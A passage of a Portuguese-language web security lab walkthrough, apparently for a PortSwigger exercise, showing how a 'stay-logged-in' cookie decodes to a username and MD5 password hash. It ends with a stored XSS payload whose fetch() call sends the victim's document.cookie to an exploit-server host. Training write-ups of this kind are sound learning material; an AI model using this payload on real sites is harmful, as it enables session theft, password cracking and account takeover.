 analisando o cookie `stay-logged-in` percebemos que ele está encodado em base64, então vamos decodificar o cookie utilizando o próprio Burp Suite em "`Botão direito > Convert Selection > Base64 > Base64-decode`":

```text
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Percebemos que o cookie `stay-logged-in` contém o nome de usuário e o hash da senha do usuário "wiener" separados por ":" e para identificar o tipo de hash da senha, vamos utilizar o site [crackstation](https://crackstation.net)

![crackstation](pass_md5.png)

Percebemos que o hash da senha é um hash MD5.

Agora que sabemos onde fica a hash da senha dos usuários e o tipo de hash, podemos utilizar do XSS para roubar o cookie `stay-logged-in` de Carlos.

Para isso vamos utilizar a sessão de comentários que está vulnerável a XSS, vamos inserir o seguinte payload:

```html
<img src='x' onerror='fetch("https://exploit-0adc009004c1ee2dc11c110501cf0090.exploit-server.net/cookie="+document.cookie)'>
```
